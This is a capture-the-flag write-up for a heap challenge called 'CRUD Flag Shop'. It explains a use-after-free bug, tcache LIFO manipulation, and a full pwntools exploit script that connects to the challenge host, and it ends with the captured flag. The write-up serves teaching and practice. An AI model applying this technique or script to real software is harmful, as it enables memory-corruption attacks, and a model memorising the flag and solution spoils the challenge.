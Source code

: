 # Use-After-Free Tcache Manipulation Write-up

## Challenge Information

**Title:** CRUD Flag Shop  
**Decription:** Welcome to the alpha version of my flag shop. Currently you can do basic CRUD features in here. And yes you can get flag as well.
**Connection:** `nc ctf.m4.lu 65185`

## Initial Analysis

### Binary Examination with checksec

![](<img/1.png>)

First, I executed the binary and discovered a menu with options: Create, Delete, View, Get flag, and Exit. I used `checksec` to examine the binary protections and understand the mitigation context. The Create input requires Index, Size, and Content, making it clear this implements CRUD operations on the heap.

### Use-After-Free Discovery

![](<img/2.png>)

I tested the application flow by creating an object, deleting it, then viewing the same index. Interestingly, after deletion, the view option still attempts to print "Data: ..." from that slot. This indicates that the pointer in the array is not cleared after `free()`. In other words, there's a **Use-After-Free (UAF)** vulnerability - the program retains dangling pointers to freed memory chunks.

## Vulnerability Analysis

### Understanding the Get Flag Mechanism

![](<img/3.png>)

When the "Get flag" option is selected, the program creates exactly 5 heap allocations of size 0x70 (112 bytes) and copies the flag from `flag.txt` to the **last** (5th) allocation. The key insight is that we need to control where this 5th allocation lands in memory.

### GLIBC Tcache Exploitation Strategy

![](<img/4.png>)

Since GLIBC tcache operates as LIFO (Last In, First Out) per size class, I can manipulate the allocation order by pre-filling the tcache. My strategy:

1. Fill tcache for size 0x70 with 5 chunks (indices 1-5)
2. Free them in sequential order: 1, 2, 3, 4, 5
3. When "Get flag" performs 5 `malloc(0x70)` calls, tcache returns chunks in LIFO order: 5, 4, 3, 2, 1
4. The 5th allocation (containing the flag) lands in chunk 1's memory location
5. Since `users[1]` still holds the dangling pointer, `view(1)` will reveal the flag

## Solution Implementation

### Exploit Script

```python
from pwn import *

HOST, PORT = "ctf.m4.lu", 65185

def i2b(x):
    return str(x).encode()

def menu_create(s, idx, size, data=b"A\n"):
    s.sendlineafter(b"> ", b"1")
    s.sendlineafter(b"Index: ", i2b(idx))
    s.sendlineafter(b"Size: ", i2b(size))
    s.sendafter(b"Content: ", data if data.endswith(b"\n") else data + b"\n")
    s.recvuntil(b"Success")

def menu_delete(s, idx):
    s.sendlineafter(b"> ", b"2")
    s.sendlineafter(b"Index: ", i2b(idx))
    s.recvuntil(b"Success")

def menu_view(s, idx):
    s.sendlineafter(b"> ", b"3")
    s.sendlineafter(b"Index: ", i2b(idx))
    return s.recvline_contains(b"Data: ", timeout=2) or s.recvline(timeout=2)

def menu_get_flag(s):
    s.sendlineafter(b"> ", b"4")
    s.recvuntil(b"Flag is loaded", timeout=2)

def main():
    s = remote(HOST, PORT)
    # s = process("./chall")
    
    SIZE = 112  # 0x70
    
    # Create 5 chunks
    for idx, tag in [(1,b"A"),(2,b"B"),(3,b"C"),(4,b"D"),(5,b"E")]:
        menu_create(s, idx, SIZE, tag)
    
    # Free them in order to fill tcache
    menu_delete(s, 1)
    menu_delete(s, 2)
    menu_delete(s, 3)
    menu_delete(s, 4)
    menu_delete(s, 5)
    
    # Trigger flag loading
    menu_get_flag(s)
    
    # View the first chunk (which now contains the flag)
    s.sendlineafter(b"> ", b"3")
    s.sendlineafter(b"Index: ", b"1")
    s.recvuntil(b"Data: ")
    flag = s.recvline().strip()
    
    print(b"FLAG:", flag)
    s.close()

if __name__ == "__main__":
    main()
```

### Exploitation Process

The exploit process follows these steps:

1. **Fill tcache:** Create 5 chunks of size 0x70 (112 bytes) at indices 1-5
2. **Free in order:** Delete chunks 1, 2, 3, 4, 5 to populate the tcache LIFO queue
3. **Trigger flag loading:** Use the "Get flag" option which performs 5 malloc operations
4. **Access flag:** Due to LIFO ordering, the flag ends up in the first freed chunk, accessible via the stale pointer at index 1

## Flag

```
HiB25{H3AP_CH4LL3NG3S_FTW!!!}
```

## Summary

This challenge demonstrated:

1. **Use-After-Free Exploitation** - Leveraging dangling pointers in heap-based applications
2. **GLIBC Tcache Manipulation** - Understanding and exploiting LIFO allocation behavior
3. **Heap Feng Shui** - Precisely controlling memory layout through strategic allocation patterns
4. **Binary Analysis** - Identifying vulnerability patterns in CRUD implementations

The challenge required deep understanding of GLIBC's tcache implementation and its LIFO allocation strategy. The solution involved carefully orchestrating heap operations to ensure the flag-containing allocation would land at a memory address accessible through an existing Use-After-Free vulnerability. This demonstrates how modern heap exploits often require precise timing and understanding of allocator internals rather than traditional buffer overflow techniques.